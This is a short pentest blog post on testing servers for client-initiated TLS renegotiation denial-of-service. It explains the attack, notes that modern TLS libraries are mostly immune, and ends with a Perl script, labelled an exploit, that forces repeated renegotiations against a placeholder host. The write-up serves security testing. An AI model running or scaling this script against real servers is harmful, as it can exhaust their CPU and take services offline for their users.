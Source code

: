 ```yaml
---
layout: post
title:  "DoSing TLS endpoints"
date:   2021-03-25
categories: pentest perl
authors: [jasa]
---
```


During these day, I had an interesting task: to test if som specific endpoint is vulnerable against a client-side TLS renegotiation DoS vulnerability.

# The vulnerability

Negotiating a shared secret requires a lot of computation and thus needs some CPU time. The idea of the attack is to initiate a TLS connection and then request a renegotiation of the shared secret over and over again. This would consume a lot of CPU time from the server, which is the resource we're going to exhaust.

# The test

To exploit the vulnerability, you must make sure that the client consume much less CPU time than the server does. So, you have to tweak the renegotiation. I didn't do this, becaus I wasn't interested in really exhausting the server resources. I was only interested in the following questions:

* Does the server really support client-initiated renegotiation?
* How many renegotiations are allowed by the server before it terminates the connection?

# What did I learn?

Most TLS implementations have removed the client-initiated renegotiation from its source code, so If you use an up-to-date implementation, chances are good that you are not vulnerable.

# Expoit source code
```perl
use Socket;
use Net::SSLeay qw(die_now die_if_ssl_error) ;
use strict;
use warnings;
use Errno qw(EINTR EIO :POSIX);
use IO::Socket::INET;

Net::SSLeay::load_error_strings();
Net::SSLeay::SSLeay_add_ssl_algorithms();
Net::SSLeay::randomize();

my $hostname = "<yourhost>";
my $port = "443";
my $request = "HEAD / HTTP/1.1\r\n\r\n";

sub error_name($) {
    my $id = shift;
    my @errors = (
        'SSL_ERROR_NONE',
        'SSL_ERROR_SSL',
        'SSL_ERROR_WANT_READ',
        'SSL_ERROR_WANT_WRITE',
        'SSL_ERROR_WANT_X509_LOOKUP',
        'SSL_ERROR_SYSCALL',
        'SSL_ERROR_ZERO_RETURN',
        'SSL_ERROR_WANT_CONNECT',
        'SSL_ERROR_WANT_ACCEPT'
    );
    die "invalid error number" unless $errors[$id];
    my $result;
    return $errors[$id];
}

sub display_result($$$) {
    my $ssl = shift;
    my $result = shift;
    my $function = shift;

    die_if_ssl_error("ssl $function ($!)");

    if (0 != (my $error_id = Net::SSLeay::get_error($ssl, $result))) {
        my $error = error_name($error_id);
        print ("$function() = $error\n");

        while (0 != (my $rv = Net::SSLeay::ERR_get_error())) {
            my $error_desc = Net::SSLeay::ERR_error_string($rv);
            print ("stack: $error_desc\n");
        }
    }
}

sub set_options($$) {
    my $ctx = shift;
    my $option = shift;
    Net::SSLeay::CTX_set_options($ctx, $option)
     and die_if_ssl_error("ssl ctx set options ($!)");
}

sub set_version($$) {
    my $ctx = shift;
    my $version = shift;
    Net::SSLeay::CTX_set_ssl_version($ctx, $version)
     and die_if_ssl_error("ssl ctx set version ($!)");
}

sub set_ciphers($$) {
    my $ctx = shift;
    my $ciphers = shift;
    Net::SSLeay::CTX_set_cipher_list($ctx, $ciphers)
     and die_if_ssl_error("ssl ctx set ciphers suites ($!)");
}

sub ssl_connect($$) {
    my $ctx = shift;
    my $socket = shift;
    my $ssl = Net::SSLeay::new($ctx) or die_now("Failed to create SSL $!");
    Net::SSLeay::set_fd($ssl, $socket->fileno);
    my $res = Net::SSLeay::connect($ssl) and die_if_ssl_error("ssl connect ($!)");
    my $error = error_name(Net::SSLeay::get_error($ssl, $res));
    print ("connect() = $error\n");
    print "Cipher `" . Net::SSLeay::get_cipher($ssl) . "'\n";
    return $ssl;
}

sub configure_context($$) {
    my $ctx = shift;
    my $ciphers = shift;
    set_options($ctx, &Net::SSLeay::OP_ALL);
    set_options($ctx, &Net::SSLeay::OP_ALLOW_UNSAFE_LEGACY_RENEGOTIATION);
    #set_options($ctx, &Net::SSLeay::OP_SSL_OP_LEGACY_SERVER_CONNECT);
    set_version($ctx, &Net::SSLeay::TLSv1_2_method);
    set_ciphers($ctx, $ciphers);
}
my $socket = IO::Socket::INET->new(
    Type => IO::Socket::SOCK_STREAM,
    Proto => 'tcp',
    PeerAddr => $hostname,
    PeerPort => $port,
    Blocking => 1
) or die ("unable to connect: $!\n");

 
my $ctx = Net::SSLeay::CTX_new() or die_now("Failed to create SSL_CTX $!");
configure_context($ctx, "DHE:EDH:ECDHE:EECDH:RSA:DH:ECDH");
my $ssl = ssl_connect($ctx, $socket);

my $ret;
for (my $i=0; $i<2; $i++) {
    Net::SSLeay::renegotiate($ssl);
    die_if_ssl_error("ssl renegotiate ($!)");

    if (! $socket->connected()) {
        die("network connection has died");
    }

    $ret = Net::SSLeay::do_handshake($ssl);
    display_result($ssl, $ret, "do_handshake");
}

Net::SSLeay::free ($ssl);               # Tear down connection
Net::SSLeay::CTX_free ($ctx);
close $socket;
```